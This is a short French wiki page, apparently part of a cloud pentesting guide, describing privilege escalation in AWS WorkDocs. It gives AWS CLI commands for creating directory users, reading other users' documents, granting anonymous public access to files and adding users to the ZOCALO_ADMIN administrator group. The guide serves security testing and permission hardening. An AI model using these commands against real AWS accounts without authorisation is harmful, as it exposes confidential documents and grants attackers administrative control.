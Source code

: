 # AWS - WorkDocs Privesc

## WorkDocs

Pour plus d'informations sur WorkDocs, consultez :

{% content-ref url="../aws-services/aws-directory-services-workdocs-enum.md" %}
[aws-directory-services-workdocs-enum.md](../aws-services/aws-directory-services-workdocs-enum.md)
{% endcontent-ref %}

### `workdocs:CreateUser`

Créez un utilisateur dans le répertoire indiqué, puis vous aurez accès à la fois à WorkDocs et à AD :

```bash
# Créer un utilisateur (créé dans AD)
aws workdocs create-user --username testingasd --given-name testingasd --surname testingasd --password <password> --email-address name@directory.domain --organization-id <directory-id>
```

### `workdocs:GetDocument`, `(workdocs:`DescribeActivities`)`

Les fichiers peuvent contenir des informations sensibles, lisez-les :

```bash
# Obtenir ce qui a été créé dans le répertoire
aws workdocs describe-activities --organization-id <directory-id>

# Obtenir ce que chaque utilisateur a créé
aws workdocs describe-activities --user-id "S-1-5-21-377..."

# Obtenir le fichier (une URL pour accéder au contenu sera récupérée)
aws workdocs get-document --document-id <doc-id>
```

### `workdocs:AddResourcePermissions`

Si vous n'avez pas accès à la lecture de quelque chose, vous pouvez simplement l'accorder

```bash
# Ajouter une autorisation pour que tout le monde puisse voir le fichier
aws workdocs add-resource-permissions --resource-id <id> --principals Id=anonymous,Type=ANONYMOUS,Role=VIEWER
## Cela donnera un identifiant, le fichier sera accessible dans : https://<name>.awsapps.com/workdocs/index.html#/share/document/<id>
```

### `workdocs:AddUserToGroup`

Vous pouvez rendre un utilisateur administrateur en le plaçant dans le groupe ZOCALO\_ADMIN.\
Pour cela, suivez les instructions de [https://docs.aws.amazon.com/workdocs/latest/adminguide/manage\_set\_admin.html](https://docs.aws.amazon.com/workdocs/latest/adminguide/manage\_set\_admin.html)

Connectez-vous avec cet utilisateur dans Workdoc et accédez au panneau d'administration dans `/workdocs/index.html#/admin`

Je n'ai trouvé aucun moyen de le faire à partir de la ligne de commande.
